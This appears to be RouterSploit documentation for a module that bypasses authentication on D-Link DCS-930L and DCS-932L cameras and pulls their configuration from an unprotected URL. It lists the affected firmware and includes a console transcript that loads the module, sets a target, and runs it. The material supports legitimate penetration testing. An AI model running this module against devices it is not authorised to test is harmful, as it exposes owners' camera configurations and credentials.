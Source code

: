 # D-Link DCS Cameras Authentication Bypass

## Description
D-Link DCS web cameras allow unauthenticated attackers to obtain the configuration of the device remotely. A copy of the device configuration can be obtained by accessing unprocteted URL.

## Authors
Roberto Paleari  # vulnerability discovery
Dino Causevic  # routersploit module

## References
* https://www.exploit-db.com/exploits/24442/

## Vulnerable devices
D-Link DCS-930L, firmware version 1.04
D-Link DCS-932L, firmware version 1.02

## Usage
```
rsf > use exploits/dlink/dcs_930l_932l_auth_bypass
rsf (D-Link DCS Cameras Authentication Bypass) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       8080                 Target port


rsf (D-Link DCS Cameras Authentication Bypass) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DCS Cameras Authentication Bypass) > run
[*] Running module...
```

